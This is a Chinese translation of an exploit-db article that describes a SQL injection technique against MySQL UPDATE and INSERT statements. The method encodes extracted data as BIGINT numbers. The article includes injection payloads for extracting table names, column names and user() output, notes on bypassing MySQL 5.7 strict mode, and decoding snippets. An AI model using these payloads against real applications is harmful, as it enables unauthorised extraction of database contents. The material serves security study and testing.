 
# 【技术分享】一种新的MySQL下Update、Insert注入方法


                                阅读量   
                                **239156**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：exploit-db.com
                                <br>原文地址：[https://www.exploit-db.com/docs/41275.pdf](https://www.exploit-db.com/docs/41275.pdf)

译文仅供参考，具体内容表达以及含义原文为准



[![](https://p5.ssl.qhimg.com/t01b1716e4413fc281a.png)](https://p5.ssl.qhimg.com/t01b1716e4413fc281a.png)

翻译：[testvul_001](http://bobao.360.cn/member/contribute?uid=780092473)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**前言**

目前我们一般通过报错和时间盲注来对update和insert语句进行SQL注入，下面我们来讲解一种新的获取数据的方法。

首先我们来看一个简单的例子，假设应用会将username字段的结果会返回给我们：

```
$query = "UPDATE users SET username = '$username' WHERE id = '$id';";
```

HTTP应用中的参数是这样的：

```
username=test&amp;id=16
```

我最近研究的带内，带外攻击技巧刚好适用于这个场景，要理解我的技巧，我们可以先看下Mysql 是如何处理字符串的。在Mysql 中一个字符串等于 ‘0’，我们来看一下：

[![](https://p5.ssl.qhimg.com/t01cc281a4e0b2273e5.png)](https://p5.ssl.qhimg.com/t01cc281a4e0b2273e5.png)

假如我们把字符串和数字相加，结果和0 加这个数字一样：

[![](https://p2.ssl.qhimg.com/t01a5d3f314475c813a.png)](https://p2.ssl.qhimg.com/t01a5d3f314475c813a.png)

Mysql的这个属性给了我一些灵感，我们来看看BIGINT的最大值加上一个字符串会怎样？

[![](https://p3.ssl.qhimg.com/t01b604af8353f73320.png)](https://p3.ssl.qhimg.com/t01b604af8353f73320.png)

结果是 ‘1.8446744073709552e19’，这表明字符串实际上作为八字节的DOUBEL类型来处理。

[![](https://p5.ssl.qhimg.com/t0100a4f0da080b0577.png)](https://p5.ssl.qhimg.com/t0100a4f0da080b0577.png)

将一个DOUBLE类型和大数字相加会返回IEEE格式的值，为了解决这个问题我们可以使用OR。

[![](https://p1.ssl.qhimg.com/t0137dca0c4a3280ddb.png)](https://p1.ssl.qhimg.com/t0137dca0c4a3280ddb.png)

现在我们得到了最大的64bit无符号的BIGINT值0xffffffffffffffff。我们需要注意通过OR获取数据时，这个值必须小于BIGINT（不能超过64bit）。

<br>

**转换字符串为数字**

为了获取数据我们可以将应用输出的字段转换为数字，然后再解码回来，如下步骤：

```
String -&gt; Hexadecimal -&gt; Decimal
```

[![](https://p5.ssl.qhimg.com/t010a9008eb233745ae.png)](https://p5.ssl.qhimg.com/t010a9008eb233745ae.png)

通过SQL，Python和Ruby等语言我们可以将数字转回字符串，如下：

```
Decimal -&gt; Hexadecimal -&gt; String
```

[![](https://p5.ssl.qhimg.com/t0162c38655fe29fbab.png)](https://p5.ssl.qhimg.com/t0162c38655fe29fbab.png)

如上面提到的，Mysql中的最大值为BIGINT，我们不能超过它，也就是说每次提取的字符串不能超过8位。

[![](https://p4.ssl.qhimg.com/t01844be893e5213c30.png)](https://p4.ssl.qhimg.com/t01844be893e5213c30.png)

4702111234474983745可以被解码为AAAAAAAA，如果再加一个A,我们就不能正确解码了，因为返回的结果会是无符号的BIGINT值0xffffffffffffffff。

[![](https://p4.ssl.qhimg.com/t0164cc3747191e6a88.png)](https://p4.ssl.qhimg.com/t0164cc3747191e6a88.png)

如果需要获取的数据超过8个字节，我们需要使用substr()方法来将数据分片。

```
select conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)), 16, 10);
```

n的取值为1、2、3…比如我们要获取的username长度超过8个字符，我们首先获取前八个字符，然后继续获取后面的8个直到得到NULL。

[![](https://p1.ssl.qhimg.com/t0112037d2bc764e2c3.png)](https://p1.ssl.qhimg.com/t0112037d2bc764e2c3.png)

最后我们把user()函数获得的数据解码。

[![](https://p3.ssl.qhimg.com/t01a7a74317de6f00ae.png)](https://p3.ssl.qhimg.com/t01a7a74317de6f00ae.png)

<br>

**注入技巧**

**获取表名**

```
select conv(hex(substr((select table_name from information_schema.tables where table_schema=schema() limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

**获取列名**

```
select conv(hex(substr((select column_name from information_schema.columns where table_name=’Name of your table’ limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

**利用UPDATE语句**

下面我们通过一个例子来说明如何利用更新语句。

[![](https://p5.ssl.qhimg.com/t01a73d6a1edd5b0f4d.png)](https://p5.ssl.qhimg.com/t01a73d6a1edd5b0f4d.png)

实际的查询语句可能是这样的：

[![](https://p3.ssl.qhimg.com/t011d353490f781c9c2.png)](https://p3.ssl.qhimg.com/t011d353490f781c9c2.png)

[![](https://p1.ssl.qhimg.com/t01f035c0c8d3056e1c.png)](https://p1.ssl.qhimg.com/t01f035c0c8d3056e1c.png)

**利用INSERT语句**

原始SQL语句如下：

```
insert into users values (17,'james', 'bond');
```

我们可以像update语句中一样获取数据：

```
insert into users values (17,'james', 'bond'|conv(hex(substr(user(),1 + (n-1) * 8, 8* n)),16, 10);
```



**<br>**

**MySQL 5.7中的限制**

你可能注意到这种方法在MySQL 5.7.5之后的版本并不奏效。

[![](https://p4.ssl.qhimg.com/t01b2d273751c10ecc4.png)](https://p4.ssl.qhimg.com/t01b2d273751c10ecc4.png)

通过研究MySQL 5.7发现Mysql服务器默认运行在‘Strict SQL Mode’下，在MySQL 5.7.5里，默认的模式包含‘STRICT_TRANS_TABLES’。在 ‘Strict SQL Mode’ 下我们不能将integer转换为string。

[![](https://p1.ssl.qhimg.com/t01b58383a4c7198204.png)](https://p1.ssl.qhimg.com/t01b58383a4c7198204.png)

为了解决这个问题，我们需要在注入时一直使用一个integer类型，这样就不会有任何问题了。

[![](https://p1.ssl.qhimg.com/t01c0f333a1564337c4.png)](https://p1.ssl.qhimg.com/t01c0f333a1564337c4.png)

另外任何用户都可以在他的会话里关闭‘Strict Mode’。

[![](https://p0.ssl.qhimg.com/t01b1d78f1a0b9799a9.png)](https://p0.ssl.qhimg.com/t01b1d78f1a0b9799a9.png)

如果想设置影响所有客户端的全局属性需要SUPER权限。

[![](https://p5.ssl.qhimg.com/t01705d4634503b37c6.png)](https://p5.ssl.qhimg.com/t01705d4634503b37c6.png)

开发者也可以使用‘IGNORE’关键字来忽略‘Strict Mode’，如‘INSERT IGNORE’或者‘UPDATE IGNORE’。

[![](https://p3.ssl.qhimg.com/t018bc3ee06bf7f0821.png)](https://p3.ssl.qhimg.com/t018bc3ee06bf7f0821.png)

<br>

**解码Decoding**

SQL

```
select unhex(conv(value, 10, 16));
```

Python

```
dec = lambda x:("%x"%x).decode('hex')
```

Ruby



```
dec = lambda { |x| puts x.to_s(16).scan(/../).map { |x| x.hex.chr }.join }或
dec = lambda { |x| puts x.to_s(16).scan(/w+/).pack("H*") }
```
